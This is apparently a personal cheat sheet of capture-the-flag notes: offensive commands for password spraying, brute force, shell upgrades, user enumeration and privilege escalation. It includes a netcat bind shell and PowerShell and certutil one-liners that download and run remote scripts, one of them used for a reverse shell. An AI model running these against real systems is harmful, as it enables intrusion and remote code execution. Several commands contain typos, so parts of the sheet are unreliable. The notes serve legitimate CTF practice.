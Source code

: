 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs
<p> -----------------------------------------------------------------------------------------
<p> Windows & *nix:
<p> - password spraying:
<p> crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> - bruteforce (more options may be required, example used was SSH module):
<p> medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
<p> general notes:
<p> known hosts ssh file will show all hosts the host has SSH'd into
<p> - command to reset a broke terminal session
<p> $> reset
<p> - ssh using private rsa instead of password:
<p> ssh -i [private rsa] [user]@[ip]
<p> - impacket tools location on kali
<p> /usr/share/doc/python3-impacket/examples/
<p> use evilwinrm for when you have winrm access and want RCE

<p> -----------------------------------------------------------------------------------------
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm
<p> -----------------------------------------------------------------------------------------
<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
<p> -----------------------------------------------------------------------------------------
<p> - use rpcclient to :
<p> rpcclient -U '[found user]%[found password]' [ip]
<p> > lookupnames administrator
<p> > lookupsids [copied SID and incremen the last octet by one for user enumeration]
<p> > e.g. SID: administrator s-1-5-21-4254423774-1266059056-3197185112-500 [last octet = 500, users are 1000+]
<p> 

<p> -----------------------------------------------------------------------------------------
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]
<p> - monitor all root processes:
<p> while true;do ps -ef | grep sh | grep -v sshd | grep root; done;
<p> show all files we have read access on:
<p> find . -readable






<p> *nix:
<p> common privilege escalation techniques:
<p> - seeing if any commands can be run as sude:
<p> sudo -l
<p> - check which programs are avilable on the system for priviledge escalation and send errors away from output
<p> which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
<p> - download all FTP contents (--no-passive if passive is not allowed):
<p> wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
<p> - bind shell:
<p> (victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
<p> - listing file/ directory structure:
<p> find . 
<p> - listing file structure and look for specific file/ directory name
<p> find . | grep -i <word to look for>
<p> - show all running processes:
<p> ss -lntp
<p> -find all running processes belonging to a specfic user
<p> ps -ef | grep <user>
<p> - SUID file enum:
<p> find / -perm -4000 -ls 2>/dev/null
<p> - find files belonging to a specific user:
<p> find / -user <user> -ls 2>/dev/null
<p> - get files running on localhost:
<p> curl http://127.0.0.1:[port>]/[file]
<p> -search for value [words] inside all files recursively:
<p> grep -r [words] ./





Windows:

<p> windows powershell locations:
<p> c:\Windows\System32\    - 32 bit
<p> c:\Windows\SysWow64\    - 32 bit
<p> c:\Windows\SysNative\   - 64 bit
<p> sysinternals:
<p> dump process using the ID given from Get-Process command
<p> .\procdump64.exe
<p> - if you have write access to SMB shares use this for RCE
<p> psexec.py [user]@[ip]
<p> - get current running processes using powershell:
<p> powershell Get-Process
File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  



